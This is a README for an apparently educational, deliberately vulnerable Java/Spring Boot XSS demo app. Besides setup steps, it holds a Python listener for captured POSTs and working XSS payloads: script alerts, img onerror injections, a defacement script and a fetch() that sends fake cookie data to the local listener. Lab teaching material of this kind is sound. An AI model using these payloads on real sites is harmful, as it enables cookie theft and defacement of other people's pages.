 # vuln-xss-app — Vulnerable XSS Demo (Java / Spring Boot)

**Project:** `vuln-xss-app`
**Purpose:** Local, controlled demonstration of reflected, stored, and DOM XSS for educational use only.

> **Warning:** Do **not** use these payloads or servers against other machines or on the Internet. Run all demos only on localhost or in an isolated VM.

---

## Contents

- `pom.xml` — Maven project file
- `src/main/java/com/example/vulnxss/` — Spring Boot sources
- `src/main/resources/static/` — static frontend (search.html, comments.html, etc.)
- `attacker_listener.py` — optional local listener for safe exfiltration demo (lab-only)

---

## Quickstart (high-level)

- **Windows (PowerShell, admin):** install JDK 17 & Maven → `mvn spring-boot:run` → open `http://localhost:8080`
- **Ubuntu (bash):** `sudo apt install openjdk-17-jdk maven` → `mvn spring-boot:run` → open `http://localhost:8080`
- Optionally run `attacker_listener.py` (Python) to capture safe local exfil demonstration.

---

## 1. Prerequisites

### Windows (PowerShell)

- Administrator access recommended for installs.
- Install Chocolatey (if not installed): https://chocolatey.org/install
- Install Java 17 and Maven via Chocolatey (PowerShell as Admin):

```powershell
choco install openjdk17 -y
choco install maven -y
```

- Close & reopen PowerShell. Verify:

```powershell
java -version
mvn -v
```

### Ubuntu (bash)

```bash
sudo apt update
sudo apt install -y openjdk-17-jdk maven python3 python3-pip
java -version
mvn -v
```

---

## 2. Prepare the project

Open a terminal in the project root (where `pom.xml` lives). If you copied/cloned the repository, point your shell to that directory.

---

## 3. Run the Spring Boot app (Maven)

**Default port:** 8080 (if busy, see alternate port below)

### Windows (PowerShell)

```powershell
cd D:\262\A3\vuln-xss-app
mvn spring-boot:run
# OR run on a different port:
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

### Ubuntu (bash)

```bash
cd ~/vuln-xss-app
mvn spring-boot:run
# OR different port:
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

**Open in browser:** `http://localhost:8080` (or `:3001` if you changed it)

---

## 4. Single-file Java server (no Maven alternative)

A lightweight single-file Java server is included (`VulnXssServer.java`) if you prefer not to use Maven.

### Compile & run (Windows / Ubuntu)

```bash
javac VulnXssServer.java
java VulnXssServer
# server listens on http://localhost:3000
```

---

## 5. Optional: Local Python listener (safe exfil demo)

This listener runs on your machine / VM and logs any HTTP POSTs that arrive. Use it only in your lab environment.

Create `attacker_listener.py` with the following content:

```python
# attacker_listener.py (lab-only)
from http.server import BaseHTTPRequestHandler, HTTPServer

class Handler(BaseHTTPRequestHandler):
    def do_POST(self):
        length = int(self.headers.get('content-length', 0))
        body = self.rfile.read(length).decode('utf-8', errors='replace')
        print("=== Request received ===")
        print("Path:", self.path)
        print("Headers:", self.headers)
        print("Body:", body)
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'OK')

if __name__ == "__main__":
    server = HTTPServer(('0.0.0.0', 9000), Handler)
    print("Listening on http://0.0.0.0:9000")
    server.serve_forever()
```

### Run listener

**Windows:**

```powershell
python attacker_listener.py
```

**Ubuntu:**

```bash
python3 attacker_listener.py
```

**Test payload (from vulnerable page)** — posts to your listener (local only):

```html
<img
  src="x"
  onerror="fetch('http://localhost:9000/log',{method:'POST',headers:{'Content-Type':'text/plain'},body:'demo-data-from-xss'})"
/>
```

When you trigger such a payload in the vulnerable app (search q or comment), the listener terminal prints the received request.

---

## 6. Quick test payloads (use in query `q=` or comments form)

- Simple alert (may be blocked by modern browsers/extensions):

```
<script>alert('reflected')</script>
```

- More robust onerror payload (expected 404 but then runs):

```html
<img
  src="x"
  onerror="console.log('XSS fired'); document.body.style.border='6px solid red'"
/>
```

- Visual defacement (safe):

```html
<script>
  document.body.innerHTML = '<h1 style="color:red">Hacked — demo</h1>';
</script>
```

- Local exfil (lab-only: posts to your listener):

```html
<img
  src="x"
  onerror="fetch('http://localhost:9000/log',{method:'POST',headers:{'Content-Type':'text/plain'},body:'demo-cookie=FAKE'})"
/>
```

---

## 7. Troubleshooting

### Port already in use

If Spring Boot fails because the port is used:

- Find process (PowerShell): `netstat -ano | Select-String ":8080\s"`
- Kill process by PID (if safe): `Stop-Process -Id <PID> -Force`
- Or run on a different port:

```powershell
mvn spring-boot:run -Dspring-boot.run.arguments="--server.port=3001"
```

### `mvn` or `java` not found

- Windows: ensure Chocolatey installed JDK and Maven and restart terminal. Verify `java -version` and `mvn -v`.
- Ubuntu: `sudo apt install openjdk-17-jdk maven`.

### Browser blocking alerts

- Use `console.log` + a visible DOM change (banner or border) for reliable evidence.
- Try Incognito to avoid extension interference.

---

## 8. Reverting demo-only changes

If you temporarily added demo-only code that executes payloads (e.g., creating `<script>` tags from user input), **remove it before submission**. Example revert for `search.html`:

```html
const params = new URLSearchParams(location.search); const q = params.get('q')
|| ''; document.getElementById('resultContainer').textContent = q; // safe
display
```
